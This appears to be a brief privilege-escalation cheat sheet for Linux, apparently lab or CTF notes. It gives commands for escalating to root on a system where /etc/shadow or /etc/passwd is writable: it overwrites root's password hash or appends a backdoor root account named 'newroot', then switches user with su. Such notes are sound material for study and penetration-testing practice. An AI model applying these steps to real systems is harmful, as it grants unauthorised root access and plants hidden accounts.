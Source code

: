 # Writable /etc/shadow file
Generate a new password hash with a password of your choice:
```sh
mkpasswd -m sha-512 [newpasswordhere]
```
Edit the `/etc/shadow file` and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:
```sh
su root
```

---
# Writable /etc/passwd file
Generate a new password hash with a password of your choice (Encryption algorithm used is *crypt*):
```sh
openssl passwd newpasswordhere
```

Edit the `/etc/passwd` file and place the generated password hash between the *first and second colon (:) of the root user's row (replacing the "x").*
Switch to the root user, using the new password:
```sh
su root
```

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to `newroot` and placing the generated password hash between the first and second colon (replacing the "x").
Now switch to the `newroot` user, using the new password:
```sh
su newroot
```